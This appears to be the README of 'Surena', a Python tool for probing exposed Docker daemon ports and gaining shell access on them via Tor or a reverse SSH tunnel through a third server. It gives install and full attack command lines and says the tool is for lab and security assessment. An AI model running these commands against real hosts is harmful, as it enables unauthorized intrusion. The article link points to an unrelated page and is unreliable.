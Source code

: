 # Surena

Surena is a tool developed to assess vulnerabilities in Docker daemons when their ports are exposed to a TCP network. It is developed using Click, a Python CLI library, and the Docker SDK for Python. Surena demonstrates how a hacker can gain shell access from an insecure Docker host using two methods: Tor Network and SSH Reverse Tunneling. To explain how Surena works and how to use these methods, we have written an article on Medium that you can read by following this link: [article](https://github.com/facelessuser/wcmatch/issues).

## Installation

You can install Surena from PyPI by running the following command:

```bash
pip install surena
```

Once installed, you can run Surena using the following commands in your terminal. To view the available commands and options, use:

```bash
surena --help
```

Surena has two commands: `is-docker-host` and `get-docker-host`. The `is-docker-host` command is used for checking if the Docker daemon's port is accessible from the network. To understand its options, run the following command:

```bash
surena is-docker-host --help
```

For example, you can run this command with the following options:

```bash
surena is-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT
```

The `get-docker-host` command is used to gain shell access from the Docker daemon using two methods. To understand its options, run the following command:

```bash
surena get-docker-host --help
```

For example, to gain shell access using the Tor Network method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method tor
```

To gain shell access using the Reverse SSH Tunneling method, run this command with the following options:

```bash
surena get-docker-host --docker-host-address $DOCKER_HOST_IP --docker-host-port $DOCKER_HOST_PORT --access-method reverse-ssh --ssh-server-address $THIRD_SERVER_IP --ssh-server-username $THIRD_SERVER_USERNAME --ssh-server-password $THIRD_SERVER_PASSWORD --ssh-server-port $THIRD_SERVER_SSH_PORT
```

Please note that `$DOCKER_HOST_IP`, `$DOCKER_HOST_PORT`, `$THIRD_SERVER_IP`, `$THIRD_SERVER_USERNAME`, `$THIRD_SERVER_PASSWORD`, and `$THIRD_SERVER_SSH_PORT` should be replaced with the appropriate values.


Please note: Surena is intended for lab use and for understanding whether your Docker daemon is secure or insecure. DO NOT USE SURENA FOR MALICIOUS ACTIVITIES.

If Surena has helped you secure your infrastructure, particularly those utilizing Docker daemons over the network, we would be thrilled if you could consider supporting us by donating Dogecoin, Our Dogecoin wallet address for donations is: DRizEG8R6wW2cW5MNEAnERMMEMq6wupQMA
